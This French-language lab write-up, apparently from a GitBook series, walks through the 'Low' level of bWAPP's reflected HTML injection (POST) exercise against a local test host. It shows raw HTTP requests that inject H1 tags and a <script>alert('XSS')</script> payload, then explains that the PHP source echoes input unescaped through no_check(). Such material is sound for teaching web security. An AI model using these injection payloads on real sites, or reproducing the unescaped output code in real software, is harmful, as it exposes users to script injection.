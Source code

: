 # Niveau "Low"

## Exploitation

L'exploitation est ici triviale. Le prénom et le nom sont renseignés dans un formulaire transféré par la méthode HTTP `POST` :&#x20;

![](<../../../../../.gitbook/assets/image (14).png>)

Dont voici la requête :&#x20;

```http
POST /bWAPP/htmli_post.php HTTP/1.1
Host: 192.168.56.116
Content-Length: 46
Origin: http://192.168.56.116
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.56.116/bWAPP/htmli_post.php
Cookie: security_level=0; PHPSESSID=ca654b413e48f90c2da7d8bf914be955
Connection: close

firstname=pr%C3%A9nom&lastname=nom&form=submit
```

L'affichage des paramètres d'URL se faire directement au sein de la balise `<div></div>` contenant également le formulaire :&#x20;

```html
<div id="main">
  <h1>HTML Injection - Reflected (POST)</h1>
  <p>Enter your first and last name:</p>
  <form action="/bWAPP/htmli_post.php" method="POST">
    <p><label for="firstname">First name:</label><br />
    <input type="text" id="firstname" name="firstname"></p>
    <p><label for="lastname">Last name:</label><br />
    <input type="text" id="lastname" name="lastname"></p>
    <button type="submit" name="form" value="submit">Go</button>  
  </form>
  <br />
  Welcome prénom nom
</div>
```

Une première tentative d'injection peut se faire en se limitant à du code HTML, bien qu'il soit également possible d'injecter du Javascript :&#x20;

```http
POST /bWAPP/htmli_post.php HTTP/1.1
Host: 192.168.56.116
Content-Length: 128
Origin: http://192.168.56.116
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.56.116/bWAPP/htmli_post.php
Cookie: security_level=0; PHPSESSID=ca654b413e48f90c2da7d8bf914be955
Connection: close

firstname=%3Ch1%3ETitre+H1+contenant+le+pr%C3%A9nom%3C%2Fh1%3E&lastname=%3Ch1%3ETitre+H1+contenant+le+nom%3C%2Fh1%3E&form=submit
```

![](<../../../../../.gitbook/assets/image (18).png>)

Mais l'injection Javascript est également tout à fait possible, ici avec `<script>alert('XSS')</script>` :&#x20;

```http
POST /bWAPP/htmli_post.php HTTP/1.1
Host: 192.168.56.116
Content-Length: 82
Origin: http://192.168.56.116
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.56.116/bWAPP/htmli_post.php
Cookie: security_level=0; PHPSESSID=ca654b413e48f90c2da7d8bf914be955
Connection: close

firstname=%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E&lastname=nom&form=submit
```

![](<../../../../../.gitbook/assets/image (8) (1).png>)

## Analyse du code source

Après avoir testé que les paramètres sont bien présents, l'affichage s'effectue grâce à un simple `echo` :

{% code title="htmli_post.php" %}
```php
if(isset($_POST["firstname"]) && isset($_POST["lastname"])) {
  $firstname = $_POST["firstname"];
  $lastname = $_POST["lastname"];

  if($firstname == "" or $lastname == "") {
    echo "<font color=\"red\">Please enter both fields...</font>";
  }
  else {
    echo "Welcome " . htmli($firstname) . " " .  htmli($lastname);
  }
}
```
{% endcode %}

Les données sont au préalable traitées par la méthode `htmli()` permettant de gérer la difficulté du niveau sélectionné :

{% code title="htmli_post.php" %}
```php
function htmli($data) {
  switch($_COOKIE["security_level"]) {
    case "0" :
      $data = no_check($data);
      break;
    case "1" :
      $data = xss_check_1($data);
      break;
    case "2" :
      $data = xss_check_3($data);
      break;
    default :
      $data = no_check($data);
      break;;
  }

  return $data;
}
```
{% endcode %}

Le level "Low" correspond à la valeur 0, c'est à dire ici à l'exécution de la méthode `no_check()` qui retourne simplement la donnée :&#x20;

{% code title="functions_external.php" %}
```php
function no_check($data) {
  return $data
}
```
{% endcode %}
